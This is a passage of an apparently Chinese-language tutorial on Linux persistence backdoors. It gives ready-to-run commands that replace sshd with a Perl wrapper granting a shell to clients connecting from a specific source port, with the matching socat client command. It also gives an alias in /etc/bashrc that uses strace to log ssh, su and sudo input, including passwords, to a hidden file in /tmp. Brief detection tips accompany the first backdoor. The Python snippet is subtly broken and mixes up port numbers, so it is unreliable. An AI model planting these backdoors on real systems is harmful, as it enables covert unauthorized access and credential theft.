 ![](.\image\privilege-5-4-1.png)



**5、SSH wrapper**

首先启动的是/usr/sbin/sshd,脚本执行到getpeername这里的时候，正则匹配会失败，于是执行下一句，启动/usr/bin/sshd，这是原始sshd。原始的sshd监听端口建立了tcp连接后，会fork一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的/usr/sbin/sshd，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字，getpeername能真的获取到客户端的TCP源端口，如果是19526就执行sh给个shell

简单点就是从sshd fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行了判断。

服务端：

```
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```

客户端：

```
socat STDIO TCP4:target_ip:22,sourceport=13377

#如果你想修改源端口，可以用python的struct标准库实现。其中x00x00LF是19526的大端形式，便于传输和处理。
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A
```

![](.\image\privilege-5-5.png)

排查技巧：

```
# ls -al /usr/sbin/sshd
# cat /usr/sbin/sshd
可通过重装ssh服务恢复。
```



**6、strace后门**

通过命令替换动态跟踪系统调用和数据，可以用来记录用户ssh、su、sudo的操作。

```
#vim /etc/bashrc
alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'
# source /root/.bashrc
```
